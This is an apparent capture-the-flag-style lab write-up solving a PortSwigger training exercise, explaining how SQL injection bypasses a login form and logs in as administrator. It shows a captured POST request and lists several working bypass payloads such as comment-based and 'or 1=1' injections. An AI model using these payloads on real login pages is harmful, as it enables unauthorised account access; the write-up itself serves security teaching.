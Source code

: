 # Lab: SQL injection vulnerability allowing login bypass
## Lab Description

This lab contains an SQL injection vulnerability in the login function.

To solve the lab, perform an SQL injection attack that **logs in to the application as the administrator user**.

## Lab Solution

Authentication bypass is when an unauthenticated user gains access equivalent to an authenticated user without ever going through an authentication procedure. This is usually the result of the usage of an unexpected access procedure that does not go through the proper validation process ([CAPEC-115: Authentication Bypass](https://capec.mitre.org/data/definitions/115.html)[^1]).

One of the ways how to test authentication bypass is through the [SQL injection in HTML Form Authentication](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/04-Authentication_Testing/04-Testing_for_Bypassing_Authentication_Schema.html)[^2], and that is the aim of this exercise.

The second lab provides us with a similar web application as last time.

![starting](Assets/1.png)

However, this time we are presented with the `My account` section instead of the search filter.

After access the link, we are redirected to endpoint `HTTPS://0ab6008d04381b6bc03f3685007a004e.web-security-academy.net/login`, presenting an HTML Login Form with two input fields `Username` and `Password`.


![login-page](Assets/2.png)

Without access to the code, we can assume that the SQL query, which will be sent to the database looks like the following:

```
SELECT * FROM users WHERE username = 'username' AND password = 'password'
```

The lab description gave us a username: `administrator`. Therefore, we must find the query modification to satisfy the condition, return `TRUE`, and grant us access.

At first, we will send the POST request with an arbitrary password of `0000`.

The SQL query will look like this:

```
SELECT * FROM users WHERE username = 'administrator' AND password = '0000'
```

As we can see in the HTTP response, we received an **Invalid username or password** response due to the incorrect password provided to the application.

![invalid-password](Assets/4.png)

Because we do not know the password, we need to modify the SQL query to either validate the condition as TRUE and/or ignore the part where it compares the value of the password with the value stored in the database.
We will use the concept from the first exercise and apply the `--` comment here. This way, as shown in the SQL query below, we will effectively eliminate the password validation and log in as administrator.

```
SELECT * FROM users WHERE username = 'administrator'-- AND password = '0000'
```

![example-from-lab1](Assets/5.png)

The payload worked, and we successfully bypassed the authentication and became administrator.

![solved-exercise](Assets/6.png)

#### Is there any other way?

To see if other login techniques works, we used the [list of queries for SQL injection authentication bypass](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)[^3] and tested it against the /login webpage.

Because we know the username, we changed the original list's username `admin` to `administrator`.

Again, as the first step, we will send the HTTP POST request with an arbitrary password of `0000`, capture it with proxy and send the captured HTTP POST request to [Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder/using)[^4].


**HTTP request**
```
POST /login HTTP/1.1
Host: 0ab6008d04381b6bc03f3685007a004e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close

csrf=AGXPTGACvFjhx8ZHJH8DRvwxUfTU3Ntp&username=administrator&password=0000
```

The following payloads were tested and logged us in as administrator indicating multiple ways how to bypass the authentication process.

```
administrator' --
administrator' or '1'='1
administrator' or '1'='1'--
administrator'or 1=1 or ''='

```

#### Do we need a username?

In this case, the answer is NO.

If we provide application a condition that always evaluates to TRUE, the entire WHERE statement will be TRUE, regardless of the username or password.

[The WHERE statement](https://brightsec.com/blog/sql-injection-attack/)[^5] will then return the first ID from the users table, which is commonly the administrator. This means the unauthenticated user can access the application without authentication and administrator privileges.

Therefore, SQL queries using such inputs give us a passing flag in this exercise. Examples:

```
admin' or '1'='1'--
admin'or 1=1 or ''='
admin' or 1=1--
```

Thank you for reading and see you in the next lab!


[^1]: https://capec.mitre.org/data/definitions/115.html
[^2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/04-Authentication_Testing/04-Testing_for_Bypassing_Authentication_Schema.html
[^3]: https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/
[^4]: https://portswigger.net/burp/documentation/desktop/tools/intruder/using
[^5]: https://brightsec.com/blog/sql-injection-attack/
